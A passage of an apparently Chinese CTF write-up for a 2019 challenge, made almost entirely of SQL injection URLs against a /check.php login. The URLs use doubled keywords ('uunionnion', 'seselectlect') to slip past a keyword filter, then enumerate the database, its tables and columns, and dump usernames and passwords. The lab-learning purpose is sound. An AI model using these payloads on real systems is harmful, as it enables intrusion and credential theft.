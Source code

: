 ```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,2,3--+ 
```

判断数据库名

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,database(),3--+ 
```

判断表名

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema = database()--+ 
```

判断字段名

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,group_concat(column_name),3 frfromom infoorrmation_schema.columns whwhereere table_name = 'b4bsql'--+ 
```

flag

```
/check.php
?username=admin
&password=-admin' uunionnion seselectlect 1,group_concat(concat_ws(0x7e,username,passwoorrd)),3 frfromom b4bsql--+ 
```

### [极客大挑战 2019]BuyFlag

> 打开网站